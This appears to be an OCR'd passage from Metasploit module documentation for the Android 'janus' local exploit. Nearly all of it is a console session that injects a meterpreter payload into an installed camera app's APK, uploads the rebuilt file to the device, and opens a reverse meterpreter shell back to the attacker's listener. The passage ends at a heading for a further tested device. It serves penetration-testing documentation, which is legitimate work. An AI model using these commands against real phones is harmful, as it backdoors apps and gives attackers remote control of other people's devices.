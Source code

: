 ```
msf5 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                        Information         Connection
  --  ----  ----                        -----------         ----------
  1         meterpreter dalvik/android  u0_a80 @ localhost  192.168.0.176:4444 -> 192.168.0.107:46059 (192.168.0.107)

msf5 exploit(multi/handler) > use exploit/android/local/janus
msf5 exploit(android/local/janus) > set PACKAGE com.phonegap.camerasample
PACKAGE => com.phonegap.camerasample
msf5 exploit(android/local/janus) > set SESSION 1
SESSION => 1
msf5 exploit(android/local/janus) > set LHOST 192.168.0.176
LHOST => 192.168.0.176
msf5 exploit(android/local/janus) > set LPORT 4445
LPORT => 4445
msf5 exploit(android/local/janus) > run

[*] Downloading APK: /data/app/com.phonegap.camerasample-1/base.apk
[*] Decompiling original APK..
[*] Decompiling payload APK..
[*] Locating hook point..
[*] Adding payload as package com.phonegap.camerasample.syerq
[*] Loading /tmp/d20190824-7164-qydvgj/original/smali/com/phonegap/camerasample/CameraSampleActivity.smali and injecting payload..
[*] Rebuilding apk with meterpreter injection as /tmp/d20190824-7164-qydvgj/output.apk
[*] Uploading APK: /sdcard/app.apk
[*] APK uploaded
msf5 exploit(android/local/janus) >
```
Please note that the user will need to manually accept the install prompt on the device (and also open the application) before a new session is opened.

```
[*] Sending stage (72609 bytes) to 192.168.0.107
[*] Meterpreter session 2 opened (192.168.0.176:4445 -> 192.168.0.107:49710) at 2018-10-01 17:44:50 +0800

msf5 exploit(android/local/janus) > sessions 2
[*] Starting interaction with 2...

meterpreter > pwd
/data/user/0/com.phonegap.camerasample/files

```

### Browser (com.ume.browser.northamerica) on ZTE Z798BL Android 6.0.1 with December 2016 Security Patch
